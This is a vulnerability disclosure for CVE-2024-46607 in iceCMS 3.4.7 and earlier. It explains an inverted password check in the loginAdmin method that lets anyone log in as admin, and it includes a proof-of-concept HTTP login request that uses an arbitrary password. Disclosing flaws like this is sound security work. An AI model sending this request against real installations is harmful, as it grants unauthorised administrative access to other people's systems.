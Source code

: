 **[CVE-ID]**

CVE-2024-46607

**[PRODUCT]**

icecms

**[Vendor of Product]**

https://github.com/Thecosy/iceCMS?tab=readme-ov-file

**[VERSION]**

icecms <=3.4.7

**[Vulnerability Type]**

Incorrect Access Control

**[Description]**
  The bug is in the loginAdmin method in the UserController.java file. The fundamental reason is a code logic error. The verifyPassword method returns true and false. True represents equality, which means the password entered by the user is correct. False represents inequality, which means the password entered by the user is incorrect. In this if statement, when the password is incorrect, the program continues to run directly. However, when the password is correct, an error is reported.

![Alt Text](/icecms/PIC/CVE-2024-46607-1.png)


In the implementation of the verifyPassword method, the encrypted password in the database is directly compared with the plaintext password passed in by the user. So it is definitely wrong and the authentication is bypassed directly for login.

pic-2

## POC：

Use Burpsuite to send the login data packet as follows. Or log in directly on the login page and enter any password.

```
GET /User/loginAdmin?username=admin&password=asdasdas HTTP/1.1
Host: [IP]
sec-ch-ua: "Chromium";v="123", "Not:A-Brand";v="8"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:9528
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:9528/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
pic-3
